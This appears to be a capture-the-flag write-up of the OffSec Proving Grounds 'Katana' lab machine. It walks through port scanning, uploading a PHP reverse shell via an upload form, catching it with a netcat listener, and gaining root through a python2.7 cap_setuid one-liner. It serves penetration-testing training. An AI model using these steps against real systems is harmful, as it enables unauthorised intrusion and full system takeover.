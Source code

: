 ```yaml
---
title: "Proving grounds Play: Katana"
layout: post
date: 2023-09-28 01:00
tag: 
- CTF
- Offsec labs
- OSCP
- Writeup
- Linux
- Pg-Play
writeups: true
hidden: true
author: Naveen
description: "Offsec proving grounds play linux machine writeup"
---
```


## Nmap

```sh
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 894f3a5401f8dcb66ee078fc60a6de35 (RSA)
|   256 ddaccc4e43816be32df312a13e4ba322 (ECDSA)
|_  256 cce625c0c6119f88f6c4261edefae98b (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Katana X
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.38 (Debian)
8088/tcp open  http    LiteSpeed httpd
|_http-title: Katana X
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: LiteSpeed
8715/tcp open  http    nginx 1.14.2
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Restricted Content
|_http-title: 401 Authorization Required
|_http-server-header: nginx/1.14.2
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## 21/tcp - open  ftp - vsftpd 3.0.3

Anonymous login prohibited.

## 80/tcp -  open  http - Apache httpd 2.4.38 ((Debian))

Nothing, but just an image.

![img](/assets/images/CTF/Proving_Grounds/Katana/web-8088.png)

## 8088/tcp - open  http - LiteSpeed httpd

### Directory Fuzzing

Directory fuzzing found multiple files.

```text
http://192.168.197.83:8088/phpinfo.php
http://192.168.197.83:8088/upload.php
http://192.168.197.83:8088/upload.html
```

### upload.html

File upload

![img](/assets/images/CTF/Proving_Grounds/Katana/upload.png)

```text
Please wait for 1 minute!. Please relax!.
File : file1
Name : rshell.php
Type : application/x-php
Path : /tmp/phpSvDMjM
Size : 2589
Please wait for 1 minute!. Please relax!. Moved to other web server: /tmp/phpSvDMjM ====> /opt/manager/html/katana_rshell.php
MD5  : 8bdfb93257f57669e9aa5b48caffe853
Size : 2589 bytes
File : file2
Name : rshell.php
Type : application/x-php
Path : /tmp/phpaXZwe8
Size : 2589
Please wait for 1 minute!. Please relax!. Moved to other web server: /tmp/phpaXZwe8 ====> /opt/manager/html/katana_rshell.php
```

Upload the reverse shell and note down the file name. Fuzz for the file on all 3 URLs.

**Trigger**
http://192.168.197.83:8715/katana_rshell.php

```sh
naveenj@hackerspace:|21:35|~/pg-play/Katana/files$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [192.168.45.237] from (UNKNOWN) [192.168.197.83] 58806
Linux katana 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64 GNU/Linux
 21:37:41 up 18 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (407): Inappropriate ioctl for device
bash: no job control in this shell
www-data@katana:/$ 
```
**Initial Foothold Obtained**

## Privilege Escalation

Get the extended capabilities of the linux machine using the below command.

```sh
getcap -r / 2>/dev/null
```

**Capabilities**

```sh
www-data@katana:~$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/python2.7 = cap_setuid+ep
```

The binary `/usr/bin/python2.7` has extended capabilities which is vulnerable to privilege escalation.
[More](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities#exploitation-example).

```sh
www-data@katana:~$ getcap -r / 2>/dev/null  #Get capabilities
getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/python2.7 = cap_setuid+ep
www-data@katana:~$ /usr/bin/python2.7 -c 'import os; os.setuid(0); os.system("/bin/bash");' #Exploit
< 'import os; os.setuid(0); os.system("/bin/bash");'
id
uid=0(root) gid=33(www-data) groups=33(www-data) #Root Obtained
whoami
root
```

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).